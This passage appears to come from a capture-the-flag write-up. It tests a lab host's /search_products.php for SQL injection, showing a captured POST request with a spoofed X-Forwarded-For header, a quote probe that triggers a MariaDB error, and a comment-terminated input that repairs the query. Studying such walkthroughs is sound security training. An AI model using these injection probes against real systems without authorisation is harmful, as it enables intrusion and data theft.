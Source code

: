 #### Find SQLI

With a good list of pages to check out, I started sending those requests to repeater to test. There’s SQL injection all over the place. The first place I looked at `/search_products.php`. The initial request looked like:

```

POST /search_products.php HTTP/1.1
Host: 10.10.10.167
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.167/admin.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Connection: close
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 192.168.4.28

productName=Asus

```

When I add a `'` to get `productName=Asus'`, I see the following in the body of the returned page:

```

<!-- Latest Products -->
<section>
    <h4>Products</h4>
    <div class="table-wrapper">
        <table border="1" cellpadding="10">
            <thead>
                <tr>
                    <th>Id</th>
                    <th>Name</th>
                    <th>Quantity</th>
                    <th>Category</th>
                    <th>Price</th>
                </tr>
            </thead>
            <tbody>
                Error: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Asus'''  at line 1                     </tbody>
        </table>
    </div>

```

I can make the query good again with a comment, `productName=Asus'#`, which returns a `<tbody>` of:
